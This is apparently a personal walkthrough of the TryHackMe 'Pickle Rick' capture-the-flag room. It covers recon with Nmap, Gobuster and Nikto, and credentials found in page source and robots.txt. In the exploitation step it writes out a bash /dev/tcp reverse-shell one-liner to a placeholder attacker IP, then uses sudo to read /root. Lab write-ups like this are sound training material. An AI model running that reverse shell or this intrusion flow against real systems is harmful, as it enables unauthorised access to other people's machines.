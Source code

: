 [Room link](https://tryhackme.com/room/picklerick)

Fairly easy CTF room that took me a bit on first try, on second try it only take a few minutes.

Reconnaissance (Passive and Active):
1. Use Nmap and optionally other methods to investigate provided machine IP.
2. Access the webpage upon discovering that port 80 is open, you're greeted with main page, try checking the source page as it contains a valuable hint (Username)
3. Use Gobuster directory mode in an attempt to discover hidden directories (in my case it didn't help much)
4. Use Nikto for further web enumeration (Using this I discovered `robots.txt` and `login.php` pages)
5. (Optional, may work) I attempted to brute force the login page as I had the user account in my possession, however I was unsuccessful in my attempts and resorted to using the provided hint.
6. Inside directory `robots.txt`, you will find the password for that username.

**Exploitation**
1. Upon logging in, we are greeted with a RCE page. However, it appears to be limited or restricted on purpose (You are unable to perform commands such as `cat`), what we can do is generate a reverse shell for better control. I used this payload command `bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1 &'` and I had a terminal running a listener.
2. Once successful, we can now navigate directories and read files. This is where you'll find your first key.
3. (Optional) Stabilizing the shell. I also used `rlwrap` for my listener so I can have better user accessibility.
4. (Unsure) At this point, I wasn't sure if I needed privilege escalation or not. I tried to look for binaries that are exploitable, but I slowed down and decided to continue with my current privileges. 
5. I found the second key by simply navigating the system and found it inside `/home/rick`

**Privilege Escalation**
6. At some point, I was given a clue that the last key is inside `/root` directory, I also found out that this root is inaccessible. However, there's a way around this by typing `sudo` before `cat` or `ls` one can assume this is your own way of gaining more privileges when attempting to execute commands in this scenario.
7. Retrieve final key.
